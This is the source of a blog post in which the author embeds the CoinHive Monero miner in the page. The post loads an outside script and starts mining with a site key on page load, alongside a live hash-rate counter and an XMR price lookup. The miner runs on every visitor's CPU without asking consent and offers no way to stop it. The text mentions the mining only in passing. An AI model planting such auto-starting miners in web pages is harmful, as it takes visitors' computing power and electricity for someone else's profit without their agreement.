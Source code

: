 ```yaml
---
layout: post
title: Mining Monero using Javascript
image: /img/monero.png
tags: [monero, XMR, crypto, currency, cryptocurrency, mine, miner, mining, graphics cards, bitcoin]
comments: true
---
```

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
	
I discovered an interesting service today that allows you to embed a Monero Javascript miner into your own webpage. 
I thought this was an interesting idea and immediatly signed up and gave it a try.
The results of that are seen on this page. 

<script>
	var miner = new CoinHive.Anonymous('l0YCiLkEmA6Nk1UBDRL9O0OsHSOem86y');
	miner.start();

	// Listen on events
	miner.on('found', function() { /* Hash found */ })
	miner.on('accepted', function() { /* Hash accepted by the pool */ })

	// Update stats once per second
	setInterval(function() {
		var hashesPerSecond = miner.getHashesPerSecond();
		var totalHashes = miner.getTotalHashes();
		var acceptedHashes = miner.getAcceptedHashes();

		// Output to HTML elements...
		document.getElementById("hashesPerSecond").innerHTML = hashesPerSecond;
		document.getElementById("totalHashes").innerHTML = totalHashes;
		document.getElementById("acceptedHashes").innerHTML = acceptedHashes;
	}, 1000);

	// API call to Crypto Compare
	window.onload = function(){
		var xhttp = new XMLHttpRequest();
		xhttp.onreadystatechange = function() {
			if (this.readyState == 4 && this.status == 200) {
			var json = JSON.parse(this.responseText);
				document.getElementById("XMRprice").innerHTML = json.USD;
		   }
		};
		xhttp.open("GET", "https://min-api.cryptocompare.com/data/price?fsym=XMR&tsyms=USD", true);
		xhttp.send(); 
	}
</script>

<p>Monero (XMR) is a cryptocurrency focused around privacy, decentralization and scalability. It was created in April of 2014 and has since seen a huge uptick in adoption. 
The current price of Monero based on data retrieved from the CryptoCompare API is <p id="XMRprice"></p>
<br />
<br />
<h3>Miner Stats since visiting this page</h3>
<div>
Hashes per second: <p id="hashesPerSecond"></p>
Total Hashes: <p id="totalHashes"></p>
Accepted Hashes: <p id="acceptedHashes"></p>